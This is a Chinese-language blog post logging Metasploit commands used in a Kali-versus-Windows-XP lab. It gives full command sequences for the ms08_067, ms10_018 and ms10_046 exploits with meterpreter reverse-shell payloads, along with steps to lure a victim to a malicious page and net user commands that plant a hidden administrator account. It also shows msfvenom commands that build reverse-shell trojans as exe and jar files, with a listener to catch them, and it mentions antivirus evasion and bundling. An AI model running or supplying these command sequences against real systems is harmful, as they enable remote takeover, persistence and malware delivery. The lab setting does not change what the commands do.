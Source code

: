 ```yaml
---
title: Metasploit 的一些渗透命令记录
date: 2017-08-12 11:51:36
updated: 2017-08-12 11:51:36
tags: [网络安全]
categories: 其他
---
```

## 学黑客技术必备啊
### 简单来说，Metasploit是一款开源的安全漏洞检测工具，它本身附带一千多个渗透方式，和数百种攻击载荷
##### 来看看长啥样
![](1502693518259026341.png)

<!--more-->

## 下面记录关于windows xp 系统的一些漏洞。进行攻击的命令记录
### 测试环境：
#### 1、kali2.0
#### 2、windows xp pro

## 1、漏洞： ms08_067 
```shell
# 可通过命令来查看详情:search ms08_067
use exploit/windows/smb/ms08_067_netapi    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set RHOST 192.168.12.131   //设置目标主机ip ，我这里的目标主机为192.168.12.131
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set target 0        //这个设置自动
run  //开始攻击
# 获取到反弹的shell
shell   //进入对方电脑的终端
```
## 2、漏洞 ms10_018（浏览器提权）
```shell
# 同样的我们看看这个漏洞(搜索)：search ms10_018
use exploit/windows/browser/ms10_018_ie_behaviors    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set URIPATH test        //这个设置项目名为test
exploit  //开始渗透		
# 等待目标访问我们的网页，或者引诱目标访问我们的网页
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -i //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

## 3、漏洞 ms10_046（快捷方式漏洞）
```shell
# 同样的我们看看这个漏洞(搜索)：search ms10_046
use exploit/windows/browser/ms10_046_shortcut_icon_dllloader    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
run        //开始渗透	
exploit	
# 等待目标访问我们的网页，或者引诱目标访问我们的网页(或者http://192.168.12.130:80/) 或者文件夹里访问：\\192.168.12.130\ILSSNnFb\ 
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -l //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

> #### 当我们没有发现漏洞的时候，我们就可以利用木马进行攻击了。但是现在的杀毒软件挺成熟的，普通生成的木马容易被发现，所有我们要做的事学会免杀，或者可以和其他软件进行捆绑。
> #### 免杀是一门高级的学问，在这里就不再讲述了，下面介绍的是用msfvenom 生成木马。

## 4、木马生成
```shell
# 当没有漏洞的时候，就可以使用木马来进行渗透了。
# 利用 msfvenom 工具生成木马
# -p 是设置payload, -f 是生成文件的格式 /root/muma.exe 是生成的文件名
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f exe > /root/muma.exe 	
# 上面是exe 的格式，java的格式如下：
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f jar > /root/muma.jar
# 如果是java 下面的set payload 也要改成和生成文件的payload 的一致。
# 打开msfconsole进行监听
use exploit/multi/handler			//
set payload windows/meterpreter/reverse_tcp  //设置载荷
set LHOST 192.168.12.130   //设置本机地址
set LPORT 1234   //设置监听端口，这个和上面用msfvenom 设置的端口一致
run  //开始渗透
获取到shell
```

> 说下废话，哥当年选计算机专业，就是感觉黑客很牛掰，黑着黑那的很神奇。但是现在发现和我想的不太一样呢。没想到计算机行业有那么多分类。
> 黑客技术很高深，要好好学，研究才行，哥只是个业余的。
> 
